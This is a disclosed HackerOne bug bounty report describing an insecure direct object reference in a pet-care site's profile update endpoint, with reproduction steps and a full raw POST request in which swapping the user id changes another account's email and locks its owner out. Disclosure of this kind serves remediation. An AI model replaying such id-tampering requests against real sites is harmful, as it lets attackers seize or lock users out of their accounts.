 # ████ ' can change any account email and cannot retrieve his account and access it ' at ███

## Report Details
- **Report ID**: 1952771
- **URL**: https://hackerone.com/reports/1952771
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-04-18T16:46:58.558Z
- **Disclosed**: 2023-06-23T14:54:18.014Z

## Reporter
- **Username**: 0xs4m
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mars

## Vulnerability Information
hi ███
i found ██████████ , i can change any account email and he cannot retrieve his account and access it easily.

i can't access to his account because url activation on new email don't work and give me error.

```
SyntaxError: JSON.parse: unexpected character at line 1 column 1 of the JSON data
```
but hackers will be able to disable access users to their account on the site.

  1. Go to registration page (████)
  2. Verified your account.
  3. Go to login page and login your account.


 For the fastly test, use this credentials to login (you can use this account attacker to send request to burp and test on victim's account's i was created) 

   * For Attacker

███████████
Password
███████████ : ███████

   * For Victim 1

████████████
Password
████ : ██████████

   * For Victim 2

██████████████
Password
█████████ : ████ For Victim 3

████
Password
██████████

i access to my account victim and i go to edit my profil and send request to burp to get id user for this account ( my method of video for the attacker account is the same that i did on the victim account to get her id user ).

so .. after login i go to edit my account attacker and send request to burp and send it to repeater .. i change my id to victim id and i change email to my new email and click send so i succeeded.

i received an activation message on my new email i click on active url .. despite give me an error message when i click on the link activation
```
SyntaxError: JSON.parse: unexpected character at line 1 column 1 of the JSON data
```
the change was made successfully and the victim cannot log into his account, as it will give him an error message when he logs in.

i created +5 account victim for testing that and its worked, and can kids hackers to change the id user to anything like 10 or 100 or any number and change email this account for that id user.

burp request
```
POST /_post/usuario_actualizar.php HTTP/1.1
Host: ████████
Cookie: ████
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/██████ Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: ████████
Content-Type: multipart/form-data; boundary=---------------------------297392175112058██████████7932062474594
Content-Length: 2851
Origin: ███████-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------297392175112058█████████████7932062474594
Content-Disposition: form-data; name="nombre"

attacker
-----------------------------297392175112058████7932062474594
Content-Disposition: form-data; name="apellido"

attacker
-----------------------------297392175112058███████7932062474594
Content-Disposition: form-data; name="email"

████████████
-----------------------------297392175112058███████7932062474594
Content-Disposition: form-data; name="rut"


-----------------------------297392175112058███7932062474594
Content-Disposition: form-data; name="idProvincia"

0
-----------------------------297392175112058███7932062474594
Content-Disposition: form-data; name="idLocalidad"

0
-----------------------------297392175112058███████████7932062474594
Content-Disposition: form-data; name="optin[usuario_info_miroyalcanin]"

no
-----------------------------297392175112058███████████7932062474594
Content-Disposition: form-data; name="optin[usuario_info_miroyalcanin]"

si
-----------------------------297392175112058████████7932062474594
Content-Disposition: form-data; name="optin[usuario_info_marspetcare]"

no
-----------------------------297392175112058██████████7932062474594
Content-Disposition: form-data; name="optin[usuario_info_marspetcare]"

si
-----------------------------297392175112058████7932062474594
Content-Disposition: form-data; name="optin[usuario_investigaciones]"

no
-----------------------------297392175112058██████████7932062474594
Content-Disposition: form-data; name="optin[usuario_investigaciones]"

si
-----------------------------297392175112058███████7932062474594
Content-Disposition: form-data; name="optin[usuario_info_perros]"

no
-----------------------------297392175112058██████7932062474594
Content-Disposition: form-data; name="optin[usuario_info_perros]"

si
-----------------------------297392175112058████████7932062474594
Content-Disposition: form-data; name="optin[usuario_info_gatos]"

no
-----------------------------297392175112058███████████7932062474594
Content-Disposition: form-data; name="optin[usuario_info_gatos]"

si
-----------------------------297392175112058██████████████7932062474594
Content-Disposition: form-data; name="switch_pass"

off
-----------------------------297392175112058███7932062474594
Content-Disposition: form-data; name="ck_oldpass"

Password
-----------------------------297392175112058███████7932062474594
Content-Disposition: form-data; name="oldpass"


-----------------------------297392175112058████████████7932062474594
Content-Disposition: form-data; name="clave"


-----------------------------297392175112058█████████████7932062474594
Content-Disposition: form-data; name="clave2"


-----------------------------297392175112058███████████7932062474594
Content-Disposition: form-data; name="█████"

88796
-----------------------------297392175112058████████7932062474594--
```
██████

## Impact

█████████████

## Attachments
No attachments
